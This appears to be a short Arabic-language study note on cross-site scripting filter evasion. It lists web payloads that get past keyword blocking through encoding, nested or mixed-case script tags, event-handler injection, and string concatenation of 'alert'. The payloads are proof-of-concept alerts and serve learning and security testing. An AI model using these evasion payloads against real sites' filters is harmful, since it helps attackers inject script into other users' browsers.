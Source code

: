 ## لو في كلمه بتتمنع مثلا script روح اعمل ecode لها بكل انواعه وجرب :
{ #XSS_Idea_for_script_tag / #XSS_ecoded_payload }
#### الشرح  :
![2025-05-17 21-51-15.mkv](attachments/2025-05-17 21-51-15.mkv)

#### المواقع اللي في الشرح 
 - https://checkserp.com/encode/unicode/
- https://jsfuck.com/
- https://utf-8.jp/public/aaencode.html

-----
## لو في كلمه بتتمنع مثلا script روح اعمل الفكره دي :
{ #XSS_Idea_for_script_tag }
#### الشرح  :

![2025-05-17 21-57-54.mkv](attachments/2025-05-17 21-57-54.mkv)

#### ال payload اللي في الشرح :
- `<scr<script>ipt>alert(1);</scr</script>ipt>`

----
## لو في كلمه بتتمنع مثلا script روح اعمل الفكره دي :
{ #XSS_Idea_for_script_tag}
#### الشرح  :
#### ![2025-05-17 22-04-22.mkv](attachments/2025-05-17 22-04-22.mkv): اللي في الشرح payload ال

```bash
<ScRiPt>alert(1);</ScRiPt>
<img src=x OnErRoR=alert(1)>
<object data="JaVaScRiPt:alert(1)">
```


----

## لو الموقع بيمنع ال alert نفسه يعني مش بيمنع كلمه او  رمز يعني الكود اشتغل بس هو اول م يشوف alert حصل بيمسح الكود 
{ #XSS_Obfuscation_payloads   / #XSS_with_out_alret }
#### الشرح  :
![2025-05-24 20-41-08.mkv](attachments/2025-05-24 20-41-08.mkv)


#### ال payloads   اللي في الشرح : 
```bash
<script>window['al'+'ert']('XSS')</script
<script>window['a'+'l'+'e'+'r'+'t']('XSS')</script>
```
